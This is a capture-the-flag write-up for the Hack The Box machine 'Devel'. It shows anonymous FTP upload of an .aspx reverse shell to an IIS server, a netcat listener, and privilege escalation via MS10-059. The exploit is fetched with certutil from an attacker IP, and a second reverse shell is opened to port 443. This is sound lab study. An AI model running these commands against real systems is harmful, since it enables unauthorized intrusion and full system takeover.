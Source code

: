 # Devel [HTB](https://app.hackthebox.com/machines/Devel). 
![devel-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/devel-01.png)


## Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.129.141.58 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/nmap-res-02.png)


We have the following:

+ An FTP server with anonymous logins on port 21.
+ An IIS web server on port 80.

Lets start by connecting to the FTP and see if we can write files, or find anything interesting. 


### FTP 

Lets login: 

![ftp-login-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-login-03.png)


This is the root of the web server, `iisstart.htm` is the html for the site.
The `welcome.png` is what we see if we open the site: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/site-04.png)


If we can upload files to the FTP, we might be able to access them from the URL.
Lets see if we can write to the FTP: 

![ftp-put-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-put-05.png)


We can. Next logical step is to upload a reverse shell and run it from the URL.
Since this is a Microsoft IIS server we should use an `.aspx` reverse shell. 

`.aspx` are webpages generated by the ASP.NET framework running on Microsoft web servers. 
When we access a `.aspx` file via the URL, it should render out the webpage, 
(A.K.A executing the file...)


I found a great `.aspx` reverse shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Make sure to update your IP and port: 

![aspx-sock-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-sock-05.png)


Lets upload it via the FTP: 

![aspx-upload-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-upload-06.png)


Setup the listener with `nc -lnvp 9001`


And navigate to the file via the browser at `http://10.129.141.111/rshell.aspx` : 

![browse-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/browse-07.png)


It stalls, great sign, lets check the listener: 

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/shell-08.png)


We get a shell! Lets move to privilege escalation. 


## Privilege Escalation

In order to run winpeas we need a .NET version of 4.5.2 or higher, which we dont have:
`reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"`

![net-ver-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/net-ver-09.png)


So we cant run winpeas, how about PoweUp?, for that we need a powershell session. 
Trying to load a powershell session stalls indefinitely:

![ps-stall-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ps-stall-10.png)


So we cant run winpeas and we cant run powershell. lets try running [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 
(make sure you install xlrd with `pip2 install xlrd==1.2.0`)

First we need to save the output of `systeminfo` from the target to a file on our attack machine. 
then we can run the exploit-suggester as such: 

`./windows-exploit-suggester.py --database 2023-07-18-mssb.xls --systeminfo systeminfo.txt`


![sugg-res-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/sugg-res-11.png)


Iv'e highlighted `ms10-059`, this vulnerability lays in the `Tracing for Services` feature on
Windows systems. This happens because the feature incorrectly places ACL's on registry keys,
which allows attackers to execute code with elevated privileges. As well unsafe memory allocation when processing craftred long strings.    

You can find the exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) save the `MS10-059.exe` file to your attack machine.


Lets transfer the exploit to our target machine. 
open an http server locally with `python3 -m http.server 8888`.

`cd` into a writable directory `cd c:\\windows\\temp` and download the exploit from the target
with `certutil -urlcache -f http://10.10.14.21:8888/MS10-059.exe ms.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/transfer-12.png)


Start up the listener on the attack machine with `nc -lnvp 443`.

And run the exploit with `ms.exe 10.10.14.21 443`

![run-exploit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/run-exploit-13.png)


Lets check the listener: 

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/root-14png.png)


We got system! 

